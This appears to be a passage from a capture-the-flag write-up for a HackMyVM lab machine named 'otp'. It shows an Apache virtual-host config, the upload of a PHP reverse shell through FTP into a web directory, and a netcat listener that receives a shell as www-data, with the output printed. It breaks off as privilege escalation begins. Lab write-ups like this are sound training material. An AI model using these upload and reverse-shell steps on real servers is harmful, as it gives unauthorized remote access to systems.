             #ServerAdmin webmaster@localhost
            DocumentRoot /var/www/otp/argon
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined

            # For most configuration files from conf-available/, which are
            # enabled or disabled at a global level, it is possible to
            # include a line for only one particular virtual host. For example the
            # following line enables the CGI configuration for this host only
            # after it has been globally disabled with "a2disconf".
            #Include conf-available/serve-cgi-bin.conf
    </VirtualHost>

Going to ***/var/www/otp/argon/u9l04d_*** we can upload a reverse shell and access it from our local machine.  

    $ lcd /root/Desktop/Tools/Privilege-Escalation/php-reverse-shell
    $ put php-reverse-shell.php

>

Going to ***http://argon.otp.hmv/u9l04d_/php-reverse-shell.php*** and setting a listener on our local machine we are able to get a reverse shell.

    Local Machine:

    nc -lvp 4444
    listening on [any] 4444 ...
    connect to [10.0.0.27] from otp.hmv [10.0.0.21] 46448
    Linux otp 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
    16:11:45 up  1:33,  0 users,  load average: 1.23, 1.09, 1.13
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id -a
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

## ***PRIVILEGE ESCALATION***

Going to the /home directory we can see the machine has the user 'avijneyam' on it.

    $ sudo -ll

    Matching Defaults entries for www-data on otp:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
